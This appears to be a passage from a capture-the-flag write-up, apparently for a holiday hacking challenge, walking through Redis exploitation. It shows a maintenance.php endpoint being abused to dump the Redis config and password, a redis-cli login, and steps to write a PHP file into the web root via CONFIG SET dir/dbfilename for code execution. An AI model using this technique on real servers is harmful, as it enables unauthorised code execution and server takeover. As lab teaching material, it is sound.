 ```sh
lru_clock:15866641
executable:/usr/bin/redis-server
config_file:/usr/local/etc/redis/redis.conf
```

Decided to see if I could obtain the configuration for the server. Looks like the the password is available in the configuration and it is ```R3disp@ss```. Looks like the server directory is root maybe? I'm not sure. The command below will obtain the full configuration for the server.

```sh
player@da47331f1c25:~$ curl http://localhost/maintenance.php?cmd=config,get,*
Running: redis-cli --raw -a '<password censored>' 'config' 'get' '*'

dbfilename
dump.rdb
requirepass
R3disp@ss
masterauth
SNIPPED
dir
/
save
SNIPPED
```

Now, is the ```redis-cli``` command available to me? Looks like it is.

```sh
player@33c984ced50f:~$ whereis redis-cli
redis-cli: /usr/bin/redis-cli
```

Below is me confirming that I can login to the Redis server using the ```redis-cli``` command.

```sh
player@33c984ced50f:~$ redis-cli -a R3disp@ss -h 127.0.0.1
Warning: Using a password with '-a' or '-u' option on the command line interface may n
ot be safe.
127.0.0.1:6379> 
```

Now it's time to test for the RCE vulnerability. The hints provided by Santa's Elf Holly Evergreen provided some insight on how to perform the exploitation of the vulnerability. Take note that this is not something that you want people to be able to do. If you look closer, I shouldn't even be able to access the /var/www/html directory. See below.

```sh
player@61e8c9c01a21:~$ ls /var/www/html
ls: cannot open directory '/var/www/html': Permission denied
```

But, in the steps below I'm able to do the following.

1. Changing the dir for Redis to ```/var/www/html```. (The webservers root directory.)
2. Setting the dbfilename to testing.php which will house our code.
3. Create a test with the code ```"<?php phpinfo(); ?>"``` which will provide the PHP info for the host.
4. Save the cofniguration.
5. Exit the Redis CLI.
